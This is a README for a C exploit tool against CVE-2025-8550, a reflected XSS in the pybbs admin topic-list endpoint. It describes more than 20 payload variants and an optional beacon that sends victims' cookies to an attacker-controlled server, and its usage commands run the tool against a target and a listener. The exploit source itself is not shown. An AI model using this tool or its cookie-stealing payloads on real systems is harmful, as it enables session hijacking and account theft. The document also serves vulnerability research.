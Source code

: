 # CVE-2025-8550 – atjiu pybbs XSS Exploit

## Description

This repository hosts an automated Proof-of-Concept (PoC) exploit for **CVE-2025-8550**, a reflected Cross‑Site Scripting (XSS) vulnerability in **atjiu pybbs** (≤ v6.0.0). It targets the `/admin/topic/list` endpoint’s `username` parameter, which lacks proper input sanitization.

## Features

* **20+ Payload Variations:** script, SVG, iframe, object, onerror handlers and more.
* **Automatic URL Encoding:** ensures safe injection via libcurl’s `curl_easy_escape`.
* **Cookie Exfiltration (Optional):** beacon injection to send `document.cookie` to an attacker‑controlled server.
* **Multithreading:** uses pthreads to parallelize attempts and speed up testing.
* **Customizable CLI:** powered by `argparse`, supports specifying:

  * Target URL (`-u` / `--url`)
  * Cookie file for authenticated requests (`-c` / `--cookies`)
  * Enable cookie payload (`-k` / `--cokpay`)
  * Attacker server IP/port (`-i` / `--ip`, `-p` / `--port`)
  * Verbose logging (`-v` / `--verbose`)

## References

* **NVD:** [CVE-2025-8550](https://nvd.nist.gov/vuln/detail/CVE-2025-8550)

## Build & Usage

```
# Compile the exploit binary
gcc exploit.c argparse.c -o CVE-2025-8550 -lcurl -lpthread 

# Run against target
./CVE-2025-8550 -u http://<TARGET> -v [-c [COOKIE_FILE]]

#COOKIE SEND :
./CVE-2025-8550 -u http://TARGET -i <YOUR_IP> -p <YOUR_PORT> -v [VERBOSE_MODE] -k [PAYLOAD_COOKIE]
```

* Replace `http://<TARGET>` with your instance of atjiu pybbs.
* Use `-k` to enable the cookie‑stealing beacon (requires `-i` and `-p`).
* Omit `-c` if no authentication cookies are needed.

## References :
- NVD Entry : https://nvd.nist.gov/vuln/detail/CVE-2025-8550


## License :

MIT License


